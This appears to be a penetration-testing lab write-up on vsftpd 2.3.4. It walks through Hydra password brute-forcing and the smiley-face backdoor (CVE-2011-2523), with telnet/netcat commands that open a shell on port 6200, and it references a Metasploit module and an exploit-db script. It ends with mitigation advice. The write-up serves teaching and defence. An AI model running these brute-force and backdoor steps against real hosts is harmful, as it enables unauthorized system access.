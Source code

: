 # vsftpd 2.3.4

## Introduction

- vsftpd is an `FTP server` for Unix-like systems, including Linux
- Port: 21 which is the default FTP port.

## Anonymous Login

- There could be some files or directories that are publicly accessible through anonymous users that can leak sensitive data.
- We can FTP login with anonymous user. However, no files, directories or directory traversal found. We also do not have access to write or upload any file.

## Bruteforcing via Hydra

- Default and weak passwords are vulnerable to bruteforce attacks leading to unauthorized access of FTP shares.
- Trying to bruteforce using common usernames and password lists:
	- `hydra 172.16.242.129 ftp -L /usr/share/seclists/Usernames/Names/names.txt -P /usr/share/wordlists/rockyou.txt -t 50`
		- ftp: Specifies the protocol to attack, in this case, FTP.
		- -L : Specifies the path to a file containing a list of usernames to try during the attack.
		- -P : Specifies the path to a file containing a list of passwords to attempt.
		- -t 50: Sets the number of parallel connections (threads) to use for the attack. It is not generally recommanded to use these large number of threads as they can trigger security mechanisms on the target but since this is on our local machine, 50 threads are fine.
- However, bruteforcing lead to no correct credentials that can be used to login via FTP.

## Searchsploit

- SearchSploit is a command-line search tool for Exploit-DB that allows you to take a copy of the Exploit Database with you.
- `searchsploit vsftpd 2.3.4`
	
	![searchsploit results](../../images/vsftpd_2.3.4.jpeg)

- SearchSploit reveals that there is `Backdoor Command Execution` vulnerability present in vsftpd 2.3.4 version of FTP.

### vsftpd 2.3.4 - Backdoor Command Execution - Smiley [:)] Face backdoor (CVE: 2011-2523)

- The version of vsftpd running on the remote host has been compiled with a backdoor. Attempting to login with a `username containing :)` (a smiley face) triggers the backdoor, which results in a shell listening on TCP `port 6200`. The shell stops listening after a client connects to and disconnects from it. [ Source: https://www.tenable.com/plugins/nessus/55523]
- The source code of this version of vsftpd was modified either through access of distributing website or the distributing server.

- We can see in the if the bytes of the input match `0x3a` [":" from HEX] and `0x29` [")" from HEX], the `vsf_sysutil_extra()` function will get executed.

[backdoor code](https://static.packt-cdn.com/products/9781786463166/graphics/image_01_017.jpg)

- The `vsf_sysutil_extra()` function contains the following code. We can clearly see that it attempts to open port 6200 through `htons(6200)` and provides a shell with `execl("/bin/sh")` so that attacker can interact with the system.

![backdoor code](https://static.packt-cdn.com/products/9781786463166/graphics/image_01_018.jpg)

#### Impact Analysis

- Since this vulnerability starts a backdoor, it gives Remote Code Execution [RCE] and full access of the system as the user that was used to configure the vsftpd service on the system.
- The attacker can easily pretend to be the original user and modify/harm the system files.
- Therefore, the impact level of this vulnerability is very high.

#### Proof of Concept

- This vulnerability can be exploited either through Metasploit or manually through an automated script or command line.

- Command Line Exploitation:
	- Connect to FTP using telent or netcat:
		- `telnet 172.16.242.129 21`
		- `USER user_name:)`  # username doesn't matter as long as it contains smiley face [:)]
		- `PASS any_password` # password doesn't matter
		- This should've opened port `6200` on the host machine that runs the backdoor.

		![backdoor command injection](../../images/backdoor_command_inject_vsftpd_1.jpeg)

	- Use telent or netcat to connect on `6200` port backdoor:
		- `nc 172.16.242.129 6200`
		- `id` # verify Connection

		![backdoor command injection](../../images/backdoor_command_inject_vsftpd_2.jpeg)

- Automated Script Exploitation:
	- Script can be downloaded from exploit-db [https://www.exploit-db.com/exploits/49757] or copied from searchsploit tool.
	- Usage:
		- `python3 49757.py <IP_ADDRESS>`

- Metsploit Exploitation:
	- We can use the `exploit/unix/ftp/vsftpd_234_backdoor` exploit from metasploit and gain access through backdoor easily.
		- `use exploit/unix/ftp/vsftpd_234_backdoor` 
	- We can see what all parameters we need to set in order to exploit the machine using:
		- `show options` 

		![backdoor command injection](../../images/backdoor_command_inject_vsftpd_msf_1.jpeg)

	- Set target(s) (RHOSTS):
		- `set RHOSTS <IP_ADDRESS>`
	- Execute the attack using run or exploit command:
		- `exploit`

		![backdoor command injection](../../images/backdoor_command_inject_vsftpd_msf_3.jpeg)


#### Patches and Updates:

- The developers of vsftpd responded to this vulnerability and released newer versions of the software with security patches and fixes.
- All users were advised to update to the latest version as soon as possible to protect their servers from exploitation.

#### Mitigation

- Software Integrity and Authenticity Checks using CheckSums and digital signatures.
- Regular updates and stronger credentials.
- Setting up services as non-root user in a sandbox or isolated environment.

## References

- https://www.tenable.com/plugins/nessus/55523
- https://subscription.packtpub.com/book/security/9781786463166/1/ch01lvl1sec18/vulnerability-analysis-of-vsftpd-2-3-4-backdoor
- https://www.exploit-db.com/exploits/49757

## Conclusion

- The examination of the vsftpd 2.3.4 backdoor vulnerability underscores the critical importance of maintaining robust security practices. 
- This vulnerability illustrates how seemingly minor oversights can lead to significant security breaches, enabling unauthorized remote code execution.
- Effective mitigation involves regular updates, stringent software integrity checks, and operating services with minimal privileges.
- This case study highlights the necessity for continuous vigilance and proactive security measures to protect against sophisticated cyber threats.